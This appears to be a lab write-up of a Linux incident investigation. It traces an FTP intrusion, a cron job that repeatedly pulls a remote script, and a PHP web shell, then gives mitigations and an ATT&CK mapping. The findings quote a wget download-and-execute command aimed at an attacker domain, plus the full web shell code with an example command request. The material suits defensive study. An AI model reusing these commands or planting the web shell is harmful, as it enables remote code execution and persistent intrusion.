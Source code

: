 # Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

### Commands Executed

| Purpose | Command |
|---|---|
| Identify successful FTP authentications | `journalctl \| grep -i "ftp" \| grep -i "success"` |
| Inspect `/tmp` activity | `journalctl \| grep -i /tmp` |
| Find files modified within time window | `find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null` |
| Review activity for account `ftpadam` | `journalctl \| grep ftpadam \| grep "110.44.125.139"` |

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
![FTP](FTP.png)  

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`


- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.
![Shell Script](Shell_Script.png)
![Cron Job](Cron_Job.png)      

### Remote code execution via web shell
A PHP file was found, the snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user

Snippet observed:
`<?php 
if(isset($_REQUEST["z"])) {
  echo "<pre>"; 
  $z = ($_REQUEST["z"]); 
  system($z); 
  echo "</pre>"; 
  die; 
}
?>`

### Last Activity
The attacker’s last observed activity occurred at Sept 3, 2021 – 09:25:25.
![Last Activity](last_activity.png) 


## Mitigation Recommendations

1. **Isolate the host**
   - Remove network access (or block egress) immediately to prevent further communication with attacker infrastructure.

2. **Block IOCs**
   - Block IP `110.44.125.139` and related domains (e.g., `crest.tt`) at the firewall and proxy level.
   - Add domain/IP/file-hash IOCs to IDS/IPS rules and endpoint detection lists.

3. **Reimage the host**

4. **Credential rotation & access hardening**
   - Rotate all credentials used on the host (service accounts, SSH keys, API tokens) and invalidate sessions for compromised accounts (e.g., `ftpadam`).
   - Enforce MFA where possible and tighten access control (limit who can create cron entries / upload files).

5. **Post‑reimage validation & monitoring**
   - Deploy monitoring agents (EDR/agent and Zeek/Suricata) and centralize logs to the SIEM.
   - Apply detection rules tuned to the indicators observed (wget/curl from /tmp, new root cron entries, web shell patterns).
   - Monitor the network for any signs of the attacker attempting to re-contact the environment.

6. **Environment-wide hunt**
   - Search other hosts for the same IOCs (domain, IP, file hashes, suspicious cron entries).
   - Check authentication logs for lateral movement attempts or reused credentials.

7. **Remediation follow-ups**
   - Patch or replace legacy services (disable FTP or replace with SFTP/FTPS), and harden web applications to prevent file uploads or RCE.
   - Conduct a post-incident review to update playbooks and detection rules.


## MITRE ATT&CK Mapping

| Tactic         | Technique                         | ID            |
| -------------- | --------------------------------- | ------------- |
| Initial Access | Exploit via Remote Services (FTP) | **T1133**     |
| Persistence    | Scheduled Task/Job (Cron)         | **T1053.003** |
| Execution      | Command Execution via Web Shell   | **T1505.003** |


